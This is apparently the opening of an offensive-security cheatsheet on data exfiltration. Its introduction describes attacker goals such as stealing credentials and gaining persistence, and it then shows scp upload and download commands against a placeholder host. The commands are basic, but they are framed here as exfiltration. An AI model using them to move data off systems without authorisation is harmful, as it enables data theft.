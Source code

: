 ```yaml
---
title: "Data Exfiltration"
description: "In the infiltration process, attackers often need to download and execute code through commands that helps them: Collect information, Extract credentials and data, Create persistence, Privilege Escalation and lateral movement, Bypass defense methods..."
date: 2020-09-03
lastmod: 2020-09-03
author: "Pablo Jesús González Rubio"
cover: "ftp.png"
coverAlt: "Exfiltration via FTP"
toc: true
tags: [ Cheatsheet ]
---
```


## Introduction

In the infiltration process, attackers often need to download and execute code through commands that help them:

- Collect information
- Extract credentials and data
- Create persistence
- Privilege Escalation and lateral movement
- Bypass defense methods

For that generally is needed to upload/download files to the host and execute them, or on the contrary, execute them directly without downloading it.

Next, I've summarized some methods each for Linux and Windows to carry out the above.

## Linux

### scp

SCP is the acronym for *Secure Copy Protocol* that uses SSH for data transfer.

It's pretty much like `cp` but via SSH and can upload as to download.

A trick to remember how to use it is:

> scp origin destination

Upload:

```
scp myfile.ext user@server.com:~/file.ext
```

Download:

```
scp user@server.com:/root/file.ext myfile.ext
```
